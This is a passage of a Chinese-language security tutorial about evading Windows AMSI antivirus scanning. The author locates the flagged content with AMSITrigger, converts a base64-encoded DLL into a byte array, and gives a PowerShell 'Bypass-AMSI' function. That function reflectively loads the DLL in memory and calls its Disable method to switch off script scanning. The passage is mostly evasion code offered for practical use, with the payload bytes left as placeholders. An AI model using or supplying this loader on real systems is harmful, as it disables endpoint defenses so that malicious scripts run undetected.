 落地就被杀

[![](assets/1710900073-36874b11c16163a1acbfe3bcd75a3c3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102124-bbbcdb9c-d904-1.png)

接下来我们用 [https://github.com/RythmStick/AMSITrigger 来进行定位哪些内容被查杀。](https://github.com/RythmStick/AMSITrigger%E6%9D%A5%E8%BF%9B%E8%A1%8C%E5%AE%9A%E4%BD%8D%E5%93%AA%E4%BA%9B%E5%86%85%E5%AE%B9%E8%A2%AB%E6%9F%A5%E6%9D%80%E3%80%82)

这里我放到本地进行检测 ps1 文件的话一直被杀，所以我放到了云服务器上使用 - u 参数进行检测。

[![](assets/1710900073-c989bd9ecd3006e8fc130037fc719b68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102136-c2b2594a-d904-1.png)

由于 base64 编码后的内容也被杀了，我们直接 base64 编码转换成 byte 数组。

```plain
$string = ''
 $a = [System.Convert]::FromBase64String('你的 base64 编码')
 $a | foreach {$string = $string + $_.ToString()+','}
 $string
```

然后修改我们的加载脚本，加载数组

```plain
function Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([byte[]]@(这里是上面得到的 byte 数组)) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable();
}
```
